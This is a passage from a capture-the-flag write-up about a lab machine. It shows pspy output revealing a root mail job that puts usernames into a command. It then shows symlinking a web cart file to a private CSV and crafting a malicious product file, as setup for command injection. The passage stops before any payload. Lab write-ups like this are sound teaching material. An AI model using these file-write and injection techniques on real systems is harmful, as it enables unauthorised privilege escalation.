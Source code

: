 #### Processes

Nothing jumps out from the process list. I’ll run PSpy to look for any crons that are running. I’ll remember before that leave requests are sent to Christine. If I generate a leave request with `pspy64` running, processes start:

```

2022/10/05 04:57:15 CMD: UID=0    PID=3440   | mail -s Leave Request: christopher.jones christine 
2022/10/05 04:57:15 CMD: UID=0    PID=3441   | /usr/sbin/sendmail -oi -f root@awkward -t 
2022/10/05 04:57:15 CMD: UID=0    PID=3442   | /usr/sbin/postdrop -r 
2022/10/05 04:57:15 CMD: UID=0    PID=3443   | cleanup -z -t unix -u -c 
2022/10/05 04:57:15 CMD: UID=0    PID=3444   | trivial-rewrite -n rewrite -t unix -u -c 
2022/10/05 04:57:15 CMD: UID=0    PID=3445   | local -t unix 
2022/10/05 04:57:15 CMD: UID=33   PID=3446   | /bin/sh -c awk '/christopher.jones/' /var/www/private/leave_requests.csv 

```

It’s calling `mail` to send something to christine. The user’s name is in the subject line, and is likely command injectable if I can get data into `/private/leave_requests.csv`.

### Command Injection

#### Write to leave\_requests.cve

To show that I can write to this file, I’ll first remove my cart and add it back as a symlink to `leave_requests.csv`:

```

bean@awkward:/var/www/store/cart$ ls
8b80-fbfb-a3c-e97a
bean@awkward:/var/www/store/cart$ ln -sf /var/www/private/leave_requests.csv 8b80-fbfb-a3c-e97a
bean@awkward:/var/www/store/cart$ ls -l
total 0
lrwxrwxrwx 1 bean bean 35 Oct  5 05:41 8b80-fbfb-a3c-e97a -> /var/www/private/leave_requests.csv

```

I’ll build a malicious product. It must have the first line with `***Hat Valley Product***`, and it’s the second line that gets added to the cart. I’ll get that from `1.txt`, and then add my own description:

```

bean@awkward:/var/www/store/product-details$ head -1 1.txt > 223.txt
bean@awkward:/var/www/store/product-details$ echo '0xdf 0xdf' >> 223.txt 
bean@awkward:/var/www/store/product-details$ cat 223.txt 
***Hat Valley Product***
0xdf 0xdf

```

Now I’ll find the request in Burp to add an item to the cart, and send it to Repeater. I’ll change the item number, and send:
